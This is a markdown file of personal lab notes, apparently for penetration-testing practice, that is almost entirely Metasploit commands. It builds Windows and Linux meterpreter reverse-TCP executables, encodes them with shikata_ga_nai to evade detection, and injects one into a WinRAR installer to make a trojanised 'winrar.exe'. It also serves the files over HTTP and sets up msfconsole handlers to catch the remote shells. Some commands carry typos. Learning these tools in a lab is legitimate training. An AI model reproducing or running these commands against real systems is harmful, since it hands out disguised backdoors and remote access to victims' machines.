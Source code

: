 ### Lab Payloads
	msfvenom --list payloads
	(windows) msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHSOST=ip LPORT=1234 -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe
	(windows) msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe
	msfvenom --list formats
	cd ..
	mkdir
	(linux) msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f elf > ~/Desktop/Linux_Payloads/payloadx86.exe
	ls
	sudo python3 -m http.server
	in another window
	msfconsole 
	use mutli/handler
	set payload windows/meterpreter/reverse_tcp
	show options
	set LHOST ip
	set LPORT 1234
	exploit
	sysinfo
	cd /Desktop/Linux_Payloads
	./payloadx86.exe
	use multi/handler
	set payload linux/x86/meterpreter/reverse_tcp
	exploit
	it will run a meterpreter u can access linux machine
	ls -la 

## Encoding Payloads with Msfvenom
	(windows) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -e x86 /shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
	rm encodedx86.exe
	(windows) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
	ls
	cd ..
	(linux) msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86.exe
	cd Windows_Payloads
	sudo python -m http.server
	msfvenom
	set payload windows/meterpreter/reverse_tcp
	set LHOST ip
	set LPORT 1234
	show options
	exploit
	set payload linux/x86/meterpreter/reverse_tcp
	set LHOST ip
	set LPORT 1234
	exploit


### injecting payloads into windows portable executable
	msfvenom
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe

